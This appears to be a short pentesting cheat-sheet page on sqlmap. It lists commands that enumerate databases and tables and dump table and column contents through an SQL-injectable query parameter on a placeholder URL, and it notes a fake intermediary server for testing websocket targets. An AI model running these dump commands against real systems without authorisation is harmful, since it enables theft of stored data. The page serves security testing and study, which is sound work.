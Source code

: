 import Gist from 'react-gist';

# sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

## Extras

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
